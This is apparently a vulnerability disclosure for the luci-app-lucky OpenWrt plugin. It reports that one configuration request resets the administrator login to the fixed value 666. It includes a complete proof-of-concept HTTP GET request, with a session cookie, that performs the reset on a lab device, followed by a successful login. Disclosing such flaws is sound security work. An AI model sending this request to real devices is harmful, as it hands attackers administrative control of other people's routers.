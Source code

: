 ## luci-app-lucky OpenWrt plugin has a hardcoded credentials vulnerability

Affected product:  *luci-app-lucky* <= 2.8.3

### Product Information

project: https://github.com/gdy666/luci-app-lucky

Location of the vulnerability: https://github.com/gdy666/luci-app-lucky/blob/main/luci-app-lucky/luasrc/controller/lucky.lua

### Vulnerability Description


When handling the `lucky_set_config` request, if the `key` is `reset_auth_info`, the function resets the dministrator account and password to the fixed value `666`. This leads to a hardcoded credentials vulnerability, allowing attackers to log into the administrator system using the default account and password.

![4](img/4.png)

Before the attack, set the account to `admin` and the password to `hrgdsf`. Attempt to log in to the backend management system using the account `666` and password `666`,, which results in a login failure. 

![12](img/12.png)

![image-20240619150213925](img/5.png)

Then, create the following payload and execute the attack. 

```http
GET /cgi-bin/luci/admin/services/lucky_set_config/?key=reset_auth_info HTTP/1.1
Host: 192.168.187.101
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth_https=da6ccf9ce82e77c3bbd5c12f6ce19ea0


```

Successfully change the account to `666` and the password to `666`. 

![11](img/11.png)



 Verify the result, and the login is successful.

![6](img/6.png)



![7](img/7.png)